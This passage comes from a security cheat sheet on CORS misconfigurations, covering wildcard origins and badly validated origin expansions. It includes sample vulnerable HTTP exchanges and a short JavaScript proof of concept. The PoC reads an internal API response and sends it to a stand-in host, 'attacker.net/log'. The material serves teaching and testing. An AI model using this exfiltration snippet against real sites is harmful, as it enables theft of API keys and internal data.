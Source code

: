 If the server responds with a wildcard origin `*`, **the browser does never send
the cookies**. However, if the server does not require authentication, it's still
possible to access the data on the server. This can happen on internal servers
that are not accessible from the Internet. The attacker's website can then 
pivot into the internal network and access the server's data without authentication.

```powershell
* is the only wildcard origin
https://*.example.com is not valid
```

#### Vulnerable Implementation

```powershell
GET /endpoint HTTP/1.1
Host: api.internal.example.com
Origin: https://evil.com

HTTP/1.1 200 OK
Access-Control-Allow-Origin: *

{"[private API key]"}
```

#### Proof Of Concept

```js
var req = new XMLHttpRequest(); 
req.onload = reqListener; 
req.open('get','https://api.internal.example.com/endpoint',true); 
req.send();

function reqListener() {
    location='//attacker.net/log?key='+this.responseText; 
};
```


### Expanding the Origin

Occasionally, certain expansions of the original origin are not filtered on the server side. This might be caused by using a badly implemented regular expressions to validate the origin header.

#### Vulnerable Implementation (Example 1)

In this scenario any prefix inserted in front of `example.com` will be accepted by the server. 

```
GET /endpoint HTTP/1.1
Host: api.example.com
Origin: https://evilexample.com

HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://evilexample.com
Access-Control-Allow-Credentials: true 

{"[private API key]"}

```
